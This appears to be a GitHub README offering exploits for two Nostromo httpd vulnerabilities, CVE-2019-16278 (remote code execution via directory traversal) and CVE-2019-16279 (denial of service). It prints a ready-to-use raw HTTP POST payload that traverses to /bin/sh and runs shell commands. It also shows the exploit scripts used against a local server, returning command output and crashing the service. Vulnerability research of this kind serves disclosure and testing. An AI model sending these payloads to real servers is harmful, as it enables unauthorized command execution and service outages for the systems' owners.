 # Exploits for CVE-2019-16278 and CVE-2019-16279

Nostromo httpd is prone to 2 cricital vulnerabilities for versions <= 1.9.6 (0day =]) first one is an RCE through directory transversal, second one is a DoS

### [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278) - Directory transversal to remote code execution
![](./Nostromo.jpg)
![](./CVE-2019-16278.jpg)
![](./CVE-2019-16278.png)
![](./shodan.jpg)

```
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Content-Length: 25

echo
echo
ifconfig 2>&1
```

This bug is due to an incomplete fix for [CVE-2011-0751](https://nvd.nist.gov/vuln/detail/CVE-2011-0751). We can bypass a check for `/../` which allows us to execute `/bin/sh` with arbitrary arguments.

Example

    $ ./CVE-2019-16278.sh 127.0.0.1 8080 id
	uid=1001(sp0re) gid=1001(sp0re) groups=1001(sp0re)


### [CVE-2019-16279](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16279) - Denial of Service

This bug exploit a memory error when sending too many `\r\n` in a single connexion. 

Example

    $ curl http://127.0.0.1:8080
	HELLO!
    $ ./CVE-2019-16279.sh 127.0.0.1 8080
    $ curl http://127.0.0.1:8080
	curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
	
## 参考链接：

https://git.sp0re.sh/sp0re/Nhttpd-exploits
